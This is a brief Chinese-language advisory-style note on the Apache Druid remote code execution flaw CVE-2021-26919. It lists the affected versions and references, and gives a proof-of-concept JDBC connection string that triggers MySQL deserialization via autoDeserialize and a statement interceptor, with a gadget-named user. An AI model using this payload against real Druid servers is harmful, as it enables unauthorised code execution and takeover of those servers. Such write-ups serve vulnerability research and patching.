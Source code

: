 # Apache Druid 远程代码执行漏洞（CVE-2021-26919）

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。2021年3月30日，Apache Druid官方发布安全更新，修复了 CVE-2021-26919 Apache Druid 远程代码执行漏洞。由于Apache Druid 默认情况下缺乏授权认证，攻击者可直接构造恶意请求执行任意代码，控制服务器。

影响版本

Apache Druid < 0.20.2

jdbc触发点：https://druid.apache.org/docs/0.19.0/development/extensions-core/druid-lookups.html#polling-lookup

poc:

```
url = "jdbc:mysql://localhost:3307/?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&maxAllowedPacket=65535"
user ="cb1"
password="password"
```

ref：

* http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
* https://help.aliyun.com/noticelist/articleid/1060822985.html